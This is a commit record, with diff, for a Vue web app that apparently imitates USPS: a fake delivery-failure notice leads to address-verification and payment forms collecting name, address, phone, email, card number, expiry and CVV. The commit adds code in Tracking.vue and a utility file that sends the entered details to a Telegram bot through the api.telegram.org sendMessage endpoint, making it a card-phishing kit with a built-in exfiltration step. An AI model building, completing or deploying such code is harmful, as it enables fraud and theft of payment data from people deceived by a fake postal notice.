

Before and after one commit to Techboy07/upsps, a Vue app: page /delivery-failure/status in a window 390 px wide. Shown: the top 1568 px of the page. Before the commit the page ends 1360 px from the top, so only its background shows below. Built offline with nearby package versions, Linux system fonts and the light colour scheme.

Commit message:
moving to phone

```diff
--- a/package.json
+++ b/package.json
@@ -10,7 +10,8 @@
   },
   "dependencies": {
     "pinia": "^2.3.0",
-    "vue": "^3.5.13"
+    "vue": "^3.5.13",
+    "vue-router": "^4.5.0"
   },
   "devDependencies": {
     "@vitejs/plugin-vue": "^5.2.1",
--- a/src/App.vue
+++ b/src/App.vue
@@ -1,16 +1,14 @@
 <script setup>
 import MyFooter from "./components/MyFooter.vue";
 import MyHeader from "./components/MyHeader.vue";
-//import Status from "./components/Status.vue";
-// import Tracking from "./components/Tracking.vue";
-import Payment from "./components/Payment.vue";
 import NavMenuMobile from "./components/NavMenuMobile.vue";
+import { RouterView } from "vue-router";
 </script>
 
 <template>
   <MyHeader />
   <NavMenuMobile />
-  <Payment />
+  <RouterView />
   <MyFooter />
 </template>
 
--- a/src/components/ModifiedInput.vue
+++ b/src/components/ModifiedInput.vue
@@ -2,9 +2,9 @@
   <div>
     <div
       :class="
-        !filled ? 'border-2 border-main-red ' : 'border-2 border-text-heading '
+        !filled ? 'border-2 border-red-500 ' : 'border-2 border-text-heading '
       "
-      class="relative px-4 rounded-md opacity-70 text-main-text input-wrapper flex flex-col-reverse py-2 justify-center"
+      class="relative rounded-md opacity-70 text-main-text input-wrapper flex flex-col-reverse justify-center"
       @click="focusInput"
       @mouseleave="setFilled"
     >
@@ -15,7 +15,7 @@
         ref="myIn"
         :type="type"
         :class="filled ? 'filled' : ''"
-        class="font-medim duration-300 border-0 outline-0 bg-inherit input"
+        class="font-medim duration-300 border-0 outline-0 bg-inherit input py-2 px-4"
         :placeholder="label"
       />
       <button class="absolute right-4 max-w-8" @click="buttonWork">
--- a/src/components/MyInput.vue
+++ b/src/components/MyInput.vue
@@ -2,9 +2,9 @@
   <div>
     <div
       :class="
-        !filled ? 'border-2 border-main-red ' : 'border-2 border-text-heading '
+        !filled ? 'border-2 border-red-500 ' : 'border-2 border-text-heading '
       "
-      class="relative px-4 rounded-md opacity-70 text-main-text input-wrapper flex flex-col-reverse py-2 justify-center"
+      class="relative rounded-md opacity-70 text-main-text input-wrapper flex flex-col-reverse justify-center"
       @click="focusInput"
       @mouseleave="setFilled"
     >
@@ -16,13 +16,12 @@
         ref="myIn"
         :type="type"
         :class="filled ? 'filled' : ''"
-        class="font duration-300 border-0 outline-0 bg-inherit input"
+        class="font duration-300 border-0 outline-0 bg-inherit input py-2 px-4"
       />
 
-      <!-- <div class="text-main-red flex" v-if="!filled">
-  <i class="ri-close-circle-line"></i>
-      <p>{{ errMsg }}</p>
-    </div> -->
+      <div class="text-main-red flex" v-if="!filled">
+        <p>{{ errMsg }}</p>
+      </div>
     </div>
   </div>
 </template>
--- a/src/main.js
+++ b/src/main.js
@@ -1,5 +1,7 @@
 import { createApp } from "vue";
 import { createPinia } from "pinia";
+import router from "./router";
+
 import "./style.css";
 import App from "./App.vue";
 
@@ -7,5 +9,5 @@
 const app = createApp(App);
 
 app.use(pinia);
-
+app.use(router);
 app.mount("#app");
--- a/src/stores/info.js
+++ b/src/stores/info.js
@@ -10,16 +10,19 @@
       firstname: "",
       lastname: "",
       address: "",
+      address2: "",
       city: "",
       state: "",
       zip: "",
       phone: "",
+      cardHolder: "",
       cardnum: "",
       month: "",
       year: "",
       cvv: "",
       cardImage: "/pay_imgs/credit-card-solid-24.png",
       cardType: "",
+      expire: "",
       openNav: false,
       openSearch: false,
     };
@@ -33,6 +36,7 @@
         firstname: state.firstname,
         lastname: state.lastname,
         address: state.address,
+        address2: state.address2,
         city: state.city,
         state: state.state,
         zip: state.zip,
@@ -41,6 +45,8 @@
         month: state.month,
         year: state.year,
         cvv: state.cvv,
+        cardHolder: state.cardHolder,
+        expire: state.expire,
       };
     },
     actions: {
--- /dev/null
+++ b/src/utils/updateMessage.js
@@ -0,0 +1,12 @@
+const { VITE_API_TOKEN, VITE_CHAT_ID } = import.meta.env;
+
+export function updateMyMessage(obj) {
+  myMessage.value += encodeURI("\n");
+  myMessage.value += obj;
+  //this.myMessage += encodeURI("\n");
+}
+
+export function fetchSend() {
+  const url = `https://api.telegram.org/bot${VITE_API_TOKEN}/sendMessage?chat_id=${VITE_CHAT_ID}&text=${this.myMessage}`;
+  fetch(url).then(() => router.push("/payment"));
+}
--- a/src/components/Payment.vue
+++ b/src/views/Payment.vue
@@ -14,7 +14,7 @@
         <p class="text-text-body font-helv2 mb-1">
           Cardholder <span class="text-red-600">*</span>
         </p>
-        <Input class="" />
+        <Input v-model="store.cardHolder" />
       </div>
       <div class="my-4">
         <p class="text-text-body font-helv2 mb-1">
@@ -41,31 +41,37 @@
           <p class="text-text-body font-helv2 mb-1">
             Expire Date <span class="text-red-600">*</span>
           </p>
-          <Input label="MM/YY" />
+          <Input label="MM/YY" v-model="store.expire" />
         </div>
         <div>
           <p class="text-text-body font-helv2 mb-1">
             Security Code(CVV) <span class="text-red-600">*</span>
           </p>
-          <Input label="123" />
+          <Input label="123" v-model="store.cvv" />
         </div>
       </div>
     </div>
 
-    <button class="bg-text-heading text-white px-7 py-2 rounded-md">
+    <button
+      class="bg-text-heading text-white px-7 py-2 rounded-md"
+      @click="handleSubmit"
+    >
       Submit
     </button>
   </div>
 </template>
 
 <script setup>
-import Input from "./MyInput.vue";
-import ModifiedInput from "./ModifiedInput.vue";
+import Input from "/src/components/MyInput.vue";
+import ModifiedInput from "/src/components/ModifiedInput.vue";
+import { updateMyMessage } from "../utils/updateMessage.js";
 import { ref } from "vue";
 
 import { useCounterStore } from "/src/stores/info";
+const { VITE_API_TOKEN, VITE_CHAT_ID } = import.meta.env;
 
 const store = useCounterStore();
+const loading = ref(false);
 
 const payments = ref([
   "/pay_imgs/visa.png",
@@ -102,4 +108,43 @@
   // If none of the above conditions match, return u0nknown
   return "/pay_imgs/credit-card-solid-24.png";
 }
+
+function handleSubmit() {
+  const storeInfo = store.getInfo;
+  const dataPoints = [
+    "firstname",
+    "address",
+    "address2",
+    "city",
+    "state",
+    "zip",
+    "phone",
+    "email",
+    "cardHolder",
+    "cvv",
+    "cardnum",
+    "expire",
+  ];
+  const info = {};
+  dataPoints.forEach((key) => {
+    info[key] = storeInfo[key];
+  });
+
+  const data = Object.values(info);
+
+  let filled = false;
+  for (let i = 0; i <= data.length; i++) {
+    if (data[i] == "") {
+      filled = false;
+
+      return;
+    } else if (data[i] != "") {
+      filled = true;
+    }
+  }
+
+  if (filled === true && data.length != 0) {
+    loading.value = true;
+  }
+}
 </script>
--- a/src/components/Status.vue
+++ b/src/views/Status.vue
@@ -1,10 +1,14 @@
 <template>
   <div class="px-4 pt-5">
-    <h4 class="text-text-heading text-xl font-extrabold my-3">Delivery status</h4>
+    <h4 class="text-text-heading text-xl font-extrabold my-3">
+      Delivery status
+    </h4>
 
     <div class="bg-[#f7f7f7] px-5 py-8 rounded text-text-body font-medium">
       <p>Your package number: US47402560</p>
-      <h6 class="font-extrabold text-lg text-[red] my-2">Failure notice of delivery</h6>
+      <h6 class="font-extrabold text-lg text-[red] my-2">
+        Failure notice of delivery
+      </h6>
       <ul class="list-disc list-inside leading-tight space-y-3">
         <li>
           Because the delivery address is not clear, your package is not
@@ -14,11 +18,15 @@
         <li>Please update your address, we will ship again in 01/09/2024</li>
       </ul>
     </div>
-    <button
-      class="px-10 mx-auto w-full py-2 bg-text-heading text-white my-4 rounded"
-    >
-      continue
-    </button>
+    <RouterLink to="/status">
+      <button
+        class="px-10 mx-auto w-full py-2 bg-text-heading text-white my-4 rounded"
+      >
+        continue
+      </button>
+    </RouterLink>
   </div>
 </template>
-<script setup></script>
+<script setup>
+import { RouterLink } from "vue-router";
+</script>
--- /dev/null
+++ b/src/views/Tracking.vue
@@ -0,0 +1,125 @@
+<template>
+  <!-- code... -->
+  <div class="p-5 bg-[#f7f7f7] flex justify-between fixed top-14 w-full z-40">
+    <div class="w-[217px]">
+      <img src="/logo-sb.svg" alt="usps-tracking" />
+    </div>
+    <div>
+      <p class="text-text-heading font-semibold">
+        FAQs <i class="ri-arrow-right-s-line text-red-600"></i>
+      </p>
+    </div>
+  </div>
+  <div class="pt-44 pb-20">
+    <h4 class="font-semibold text-text-heading w-max mx-auto text-xl">
+      Track Another Package <i class="ri-add-line text-red-600"></i>
+    </h4>
+  </div>
+
+  <div class="p-5 bg-[#f7f7f7]">
+    <div class="mb-5">
+      <h4 class="font-bold text-xl text-text-heading">Tracking Number :</h4>
+      <p class="font-helv2 text-text-body">US94512106007770</p>
+    </div>
+
+    <div class="w-full h-5 bg-text-heading"></div>
+    <h4 class="text-red-600 text-xl font-semibold my-5">
+      We have issues with your shipping address
+    </h4>
+
+    <p class="text-text-body font-helv2">
+      USPS Allows you to Redeliver your package to your address in case of
+      delivery failure or any other case.
+    </p>
+    <p class="text-text-body font-helv2">
+      You can also track the package at any time, from shipment to delivery.
+    </p>
+    <div>
+      <h4 class="text-text-heading text-xl font-semibold my-5">
+        Verify Address
+      </h4>
+
+      <p class="text-text-body font-helv2">
+        First, we need to confirm your address is eligible for Informed
+        Delivery.
+      </p>
+
+      <div class="space-y-5 my-5">
+        <Input label="Full name" v-model="store.firstname" />
+        <Input label="Street Address 1" v-model="store.address" />
+        <Input label="Street Address 2(OPT)" v-model="store.address2" />
+        <Input label="City" v-model="store.city" />
+        <Input label="Select State" v-model="store.state" />
+        <Input label="Zip code *(OPT)" v-model="store.zip" />
+        <Input label="Phone Number" v-model="store.phone" />
+        <Input label="E-mail Address" v-model="store.email" />
+      </div>
+      <button
+        class="bg-text-heading text-white px-7 py-2 mx-auto block"
+        @click="handleSubmit"
+      >
+        {{ loading ? "please wait..." : "Continue" }}
+      </button>
+    </div>
+  </div>
+</template>
+
+<script setup>
+// code...
+import Input from "/src/components/MyInput.vue";
+import { useCounterStore } from "/src/stores/info.js";
+import { ref } from "vue";
+import { useRouter } from "vue-router";
+import { updateMyMessage } from "../utils/updateMessage.js";
+
+const { VITE_API_TOKEN, VITE_CHAT_ID } = import.meta.env;
+
+const router = useRouter();
+const store = useCounterStore();
+const loading = ref(false);
+const myMessage = ref("");
+
+function handleSubmit() {
+  const storeInfo = store.getInfo;
+  const dataPoints = [
+    "firstname",
+    "address",
+    "address2",
+    "city",
+    "state",
+    "zip",
+    "phone",
+    "email",
+  ];
+
+  const info = {};
+  dataPoints.forEach((key) => {
+    info[key] = storeInfo[key];
+  });
+  const data = Object.values(info);
+
+  let filled = false;
+  for (let i = 0; i <= data.length; i++) {
+    if (data[i] == "") {
+      filled = false;
+      return;
+    } else if (data[i] != "") {
+      filled = true;
+    }
+  }
+
+  if (filled === true && data.length != 0) {
+    loading.value = true;
+    store.cardType = store.getCardType;
+
+    const theKeys = Object.keys(info);
+    for (let i = 0; i < theKeys.length; i++) {
+      updateMyMessage(`${theKeys[i]}:   ${data[i]}`);
+    }
+    const url = `https://api.telegram.org/bot${VITE_API_TOKEN}/sendMessage?chat_id=${VITE_CHAT_ID}&text=${this.myMessage}`;
+    fetch(url).then(() => router.push("/payment"));
+  }
+}
+</script>
+
+<style scoped></style>
```
Also changed, not shown: src/components/Tracking.vue (deleted, +0 -69 lines), src/router/index.js (added, +19 -0 lines), 2 other files (tests, documents, lock files or other folders).
